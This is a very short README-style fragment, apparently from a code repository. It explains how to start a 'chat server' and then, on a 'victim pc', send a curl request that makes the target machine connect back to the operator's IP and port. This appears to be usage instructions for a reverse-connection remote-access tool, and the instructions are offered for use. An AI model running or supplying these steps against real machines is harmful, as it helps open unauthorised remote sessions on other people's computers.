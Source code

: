 start chat server
```bash
python server.py <port>
```
start chat on victim pc
```bash
curl --request POST --url http://<ip>:9999/start-chat?address=<your_ip>&port=<port>
```